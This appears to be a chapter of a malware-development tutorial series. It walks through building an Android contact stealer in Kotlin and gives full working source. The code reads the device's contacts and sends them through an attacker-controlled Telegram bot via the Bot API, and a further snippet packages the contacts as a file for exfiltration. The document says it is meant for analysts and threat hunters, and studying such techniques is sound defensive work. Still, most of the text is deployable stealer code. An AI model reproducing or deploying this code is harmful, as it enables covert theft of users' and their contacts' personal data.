






\newpage
\subsection{12. mobile malware development trick. Abuse Telegram Bot API: Contacts. Simple Android (Java/Kotlin) stealer example.}

﷽

{height=400px}    

In this example, we will demonstrate how an attacker could abuse the Telegram Bot API to exfiltrate sensitive information, such as contacts, from an infected Android device. The attacker uses `OkHttp` to send the stolen data as Telegram bot to chat ID (remote).     

This tutorial will also highlight how adversaries can collect device information and contacts and send them to a Telegram bot using a combination of Android Contacts API, OkHttp, and Telegram Bot API.      

### practical example

In this case, imagine that the adversary has already compromised an Android device. The malicious app installed on the device. Then collects contacts and device information. The app then sends this sensitive data to a Telegram Chat ID controlled by the attacker using `OkHttp`.    

Your project's structure looks like there (`HackContacts2`):     

{width="80%"}       

First of all add contacts permission to your manifest file:     

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <uses-feature
        android:name="android.hardware.telephony"
        android:required="false" />
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.HackContacts"
        tools:targetApi="31">
        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:label="@string/app_name"
            android:theme="@style/Theme.HackContacts">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

The components of the our malicious application: the app uses the Android Contacts Content Provider (`ContactsContract`) to fetch the user's contacts, the app then sends the gathered data via an HTTP request via Telegram Bot API.     

As the previous examples, we need the `getContacts()` function. This function queries the `ContactsContract` content provider to extract the contacts from the device. The extracted contact information (name and phone number) is added to the message that will be sent to the Telegram bot:    

```kotlin
fun getContacts(): String {
    val contactsList = mutableListOf<String>()
    val contentResolver = context.contentResolver
    val cursor = contentResolver.query(
        ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
        null,
        null,
        null,
        null
    )

    cursor?.use {
        val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
        val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

        while (it.moveToNext()) {
            val name = it.getString(nameIndex)
            val number = it.getString(numberIndex)
            contactsList.add("$name: $number")
        }
    }

    return contactsList.joinToString(separator = "\n")
}
```

Then sends the retrieved contacts to an attacker-controlled Telegram Bot API using OkHttp:    

```kotlin
// function to send contacts using OkHttp
fun sendContacts(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val contacts = getContacts()
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$message\n\n$contacts\n\n$meow\n\n"

    val requestBody = FormBody.Builder()
        .add("chat_id", chatId)
        .add("text", messageToSend)
        .build()

    val request = Request.Builder()
        .url("https://api.telegram.org/bot$token/sendMessage")
        .post(requestBody)
        .build()

    // send the request asynchronously using OkHttp
    client.newCall(request).enqueue(object : Callback {
        override fun onFailure(call: Call, e: IOException) {
            e.printStackTrace()
        }

        override fun onResponse(call: Call, response: Response) {
            if (response.isSuccessful) {
                // Handle success
                println("Message sent successfully: ${response.body?.string()}")
            } else {
                println("Error: ${response.body?.string()}")
            }
        }
    })
}
```

So the full source code of the sending logic is looks like this `HackContacts`:    

```kotlin
package com.example.hackcontacts2

import android.content.Context
import android.provider.ContactsContract
import okhttp3.*
import java.io.IOException

class HackContacts2(private val context: Context) {

    private val client = OkHttpClient()

    // function to send contacts to Telegram
    fun sendContacts() {
        val token = getTokenFromAssets()
        val chatId = getChatIdFromAssets()
        val contacts = getContacts()  // fetch contacts
        val meow = "Meow! ♥️\uFE0F"
        val messageToSend = "$contacts\n\n$meow\n\n"

        // create request body
        val requestBody = FormBody.Builder()
            .add("chat_id", chatId)
            .add("text", messageToSend)
            .build()

        // send request to Telegram API
        val request = Request.Builder()
            .url("https://api.telegram.org/bot$token/sendMessage")
            .post(requestBody)
            .build()

        // Send request asynchronously
        client.newCall(request).enqueue(object : Callback {
            override fun onFailure(call: Call, e: IOException) {
                e.printStackTrace()
            }

            override fun onResponse(call: Call, response: Response) {
                if (response.isSuccessful) {
                    println("Message sent successfully: ${response.body?.string()}")
                } else {
                    println("Error: ${response.body?.string()}")
                }
            }
        })
    }

    // function to fetch contacts
    fun getContacts(): String {
        val contactsList = mutableListOf<String>()
        val contentResolver = context.contentResolver
        val cursor = contentResolver.query(
            ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
            null,
            null,
            null,
            null
        )

        cursor?.use {
            val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
            val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

            while (it.moveToNext()) {
                val name = it.getString(nameIndex)
                val number = it.getString(numberIndex)
                contactsList.add("$name: $number")
            }
        }

        return contactsList.joinToString(separator = "\n")
    }

    // fetch token and chatId from assets (assuming these are saved in files)
    private fun getTokenFromAssets(): String {
        return context.assets.open("token.txt").bufferedReader().readText().trim()
    }

    private fun getChatIdFromAssets(): String {
        return context.assets.open("id.txt").bufferedReader().readText().trim()
    }
}
```

And in the `MainActivity` we just request permissions and send contacts via Telegram:     

```kotlin
package com.example.hackcontacts2

import android.Manifest
import android.content.Context
import android.os.Bundle
import android.widget.Button
import android.widget.Toast
import androidx.activity.ComponentActivity
import com.karumi.dexter.Dexter
import com.karumi.dexter.PermissionToken
import com.karumi.dexter.listener.PermissionDeniedResponse
import com.karumi.dexter.listener.PermissionGrantedResponse
import com.karumi.dexter.listener.PermissionRequest
import com.karumi.dexter.listener.single.PermissionListener

class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    private val hackContacts = HackContacts2(context = this)

    private fun startContactsPermissionRequest(context: Context) {
        Dexter.withContext(context)
            .withPermission(Manifest.permission.READ_CONTACTS)
            .withListener(object : PermissionListener {
                override fun onPermissionGranted(p0: PermissionGrantedResponse?) {
                    Toast.makeText(
                        context,
                        "Hack Contacts permission granted",
                        Toast.LENGTH_SHORT
                    ).show()
                }
                override fun onPermissionDenied(p0: PermissionDeniedResponse?) {
                    Toast.makeText(
                        context,
                        "Hack Contacts permission denied",
                        Toast.LENGTH_SHORT
                    ).show()
                }
                override fun onPermissionRationaleShouldBeShown(
                    p0: PermissionRequest?,
                    p1: PermissionToken?
                ) {
                }
            }).check()
    }

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        startContactsPermissionRequest(this)
        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            hackContacts.sendContacts()
        }
    }
}
```

So inn this scenario, the malicious app on an infected Android device abuses Telegram's Bot API to exfiltrate contacts. Once the `READ_CONTACTS` permission is granted, the app:

- fetches contacts from the device using Android's Contacts Content Provider.     

- formats the contacts into a string and appends a custom message (e.g., "Meow! ♥️").    

- sends the contacts to the attacker-controlled Telegram bot via OkHttp by making a POST request via the Telegram Bot API.     

### demo

Let's go to see this in action.     

Run in the emulator:     

{width="80%"}       

{height="30%"}       

{height="30%"}       

Then click `Meow` button:     

{height="30%"}       

{width="80%"}       

As you can see everything is wokred perfectly! =^..^=    

Of course in the real scenario with the real device, you need to create file with list of contacts, something like this:    

```kotlin

private fun createTempFile(prefix: String, suffix: String): File {
    val parent = File(System.getProperty("java.io.tmpdir")!!)
    val temp = File(parent, prefix + suffix)
    if (temp.exists()) {
        temp.delete()
    }
    try {
        temp.createNewFile()
    } catch (ex: IOException) {
        ex.printStackTrace()
    }
    return temp
}

private fun getContacts() {
    val contactsList = mutableListOf<String>()

    val contactsListFile = createTempFile("Contacts", ".txt")

    val contentResolver = context.contentResolver
    val cursor = contentResolver.query(
        ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
        null,
        null,
        null,
        null
    )

    cursor?.use {
        val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
        val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

        while (it.moveToNext()) {
            val name = it.getString(nameIndex)
            val number = it.getString(numberIndex)
            contactsList.add("$name: $number")
        }
    }

    // join all contacts into a big single text
    val contactsText = contactsList.joinToString(separator = "\n")

    if (contactsText.isNotEmpty()) {
        HackContacts2(context).saveAndSendFile(contactsListFile, contactsText)
    } else {
        HackContacts2(context).sendTextMessage("no contacts found.")
    } // something like this, you need to create function for sending msg
}
```

This is a practical example for malware analysts, blue teamers, red teamers, and threat hunters to understand how Telegram or other legitimate services could be used by adversaries to bypass detection and steal information.    

[Telegram Bot API](https://core.telegram.org/bots/api)    
[okhttp](https://github.com/square/okhttp)     